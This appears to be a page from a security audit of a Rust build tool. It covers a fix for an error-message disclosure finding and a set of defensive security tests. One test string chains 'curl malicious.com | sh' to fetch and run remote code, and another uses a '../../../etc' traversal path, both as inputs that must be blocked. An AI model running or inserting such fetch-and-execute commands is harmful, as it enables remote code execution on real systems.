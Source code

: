 ### 7. Error Message Information Disclosure (CVSS 6.8)
**Fix**: Sanitize error messages
```rust
#[error("Command failed in phase '{phase}' with exit code {exit_code}")]
CommandFailed {
    phase: String,
    // ✅ Removed: command, stderr (prevent credential leakage)
    exit_code: i32,
}
```
**Estimated Effort**: 2 hours

---

## Testing Requirements

### Security Test Suite:
```rust
#[test]
fn test_command_injection_blocked() {
    let cmd = "echo 'test' && curl malicious.com | sh";
    assert!(execute_command_safe(&cmd.split(" ").collect::<Vec<_>>(), Path::new(".")).is_err());
}

#[test]
fn test_path_traversal_blocked() {
    let ws_path = Path::new("../../../etc");
    assert!(validate_workspace_path(Path::new("/project"), ws_path).is_err());
}

#[test]
fn test_toml_size_limit() {
    let huge_toml = "x".repeat(10_000_000);
    assert!(load_make_from_str(&huge_toml).is_err());
}

#[test]
fn test_hook_depth_limit() {
    // Create circular hook dependency
    let make = Make {
        hooks: Some(Hooks {
            before_init: Some(vec!["setup".to_string()]),
            before_setup: Some(vec!["init".to_string()]),
            ..Default::default()
        }),
        ..Default::default()
    };
    assert!(run_phase(&ctx, "init").is_err());
}
```

---
